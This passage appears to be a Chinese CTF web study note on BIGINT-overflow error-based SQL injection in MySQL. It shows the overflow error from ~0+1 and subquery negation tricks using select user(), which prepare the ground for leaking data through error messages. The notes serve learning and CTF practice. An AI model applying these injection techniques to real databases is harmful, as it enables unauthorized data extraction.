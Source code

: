 ![image-20220904104711869](D:\Typora\note\CTF\web\知识点\特殊的sql注入.assets\image-20220904104711869.png)

4.对于无符号整数来说，BIGINT 可以存放的最大值用二进制、十六进制和十进制表示分别为
`0b1111111111111111111111111111111111111111111111111111111111111111`
`0xFFFFFFFFFFFFFFFF`
`18446744073709551615`
同样的，如果对这个值进行数值表达式运算，如加法或减法运算，同样也会导致
`BIGINT value is out of range` 错误:

![image-20220904104835088](D:\Typora\note\CTF\web\知识点\特殊的sql注入.assets\image-20220904104835088.png)

5.对数值0取反，就会得到unsigned的最大BIGINT值

```mysql
mysql> select ~0;
+----------------------+
| ~0                   |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)

mysql> select ~0+1;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + 1)'
```

#### 利用方法

**1.**所以基于BIGINT溢出错误的sql注入的关键点是0，而一个查询如果成功返回，其返回值为`0`
所以我们就可以这样利用(后面带个x是因为你要给转存的数据取个名字)

```mysql
mysql> select (select*from(select user())x);
+-------------------------------+
| (select*from(select user())x) |
+-------------------------------+
| root@localhost                |
+-------------------------------+
1 row in set (0.00 sec)

mysql> select !(select*from(select user())x);
+--------------------------------+
| !(select*from(select user())x) |
+--------------------------------+
|                              1 |
+--------------------------------+
1 row in set (0.00 sec)
mysql> select ~(select * from (select user())x);
+-----------------------------------+
| ~(select * from (select user())x) |
+-----------------------------------+
|              18446744073709551615 |
+-----------------------------------+
1 row in set (0.00 sec)
```
